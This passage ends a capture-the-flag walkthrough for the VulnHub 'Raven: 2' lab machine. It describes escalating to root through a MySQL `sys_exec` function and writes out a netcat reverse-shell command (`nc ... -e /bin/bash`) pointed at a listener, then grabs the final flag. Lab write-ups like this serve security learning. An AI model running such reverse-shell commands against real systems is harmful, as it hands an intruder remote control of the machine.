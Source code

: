 Time to create the functions! In fact, we only need to create one function `sys_exec`.

<a class="image-popup">
![5b858fcf.png](/assets/images/posts/raven-2-walkthrough/5b858fcf.png)
</a>

Let's drop a `root` shell. Same thing. We set up a `nc` listener at `4321/tcp` and use the `sys_exec` to execute `nc 192.168.30.128 4321 -e /bin/bash`.

<a class="image-popup">
![ccb45897.png](/assets/images/posts/raven-2-walkthrough/ccb45897.png)
</a>

Meanwhile, at the `nc` listener &hellip;

<a class="image-popup">
![13e83da2.png](/assets/images/posts/raven-2-walkthrough/13e83da2.png)
</a>

Boom.

### Flag: 4

With a `root` shell, getting the final flag is trivial.

<a class="image-popup">
![bef5c602.png](/assets/images/posts/raven-2-walkthrough/bef5c602.png)
</a>

:dancer:

## Afterthought

Good thing I went straight for Raven: 2 first.

[1]: https://www.vulnhub.com/entry/raven-2,269/
[2]: https://twitter.com/@mccannwj
[3]: https://www.vulnhub.com/
